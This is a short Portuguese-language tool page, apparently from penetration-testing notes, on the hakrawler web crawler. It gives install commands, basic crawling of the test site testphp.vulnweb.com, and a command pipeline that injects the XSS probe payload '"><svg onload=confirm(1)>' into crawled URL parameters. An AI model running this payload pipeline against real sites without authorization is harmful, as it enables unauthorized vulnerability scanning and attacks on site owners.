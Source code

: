 ```yaml
---
id: hakrawler
title: hakrawler
---
```


Web crawler escrito em Golang para coletar URLs e arquivos JavaScript.

[https://github.com/hakluke/hakrawler](https://github.com/hakluke/hakrawler)

---

## Instalação

```bash
go install github.com/hakluke/hakrawler@latest
mv ~/go/bin/hakrawler /usr/bin
```

ou

```bash
sudo apt install hakrawler # Kali Linux
```

## Uso básico

```bash
echo testphp.vulnweb.com | hakrawler -subs
```

## Procurando XSS

Podemos automatizar a procura de XSS utilizando o `hakrawler` em conjunto com o
`airixss`:

```bash
echo testphp.vulnweb.com | \
    httpx -silent | \
    hakrawler -subs | \
    grep "=" | \
    qsreplace '"><svg onload=confirm(1)>' | \
    airixss -payload "confirm(1)" | \
    egrep -v 'Not'
```
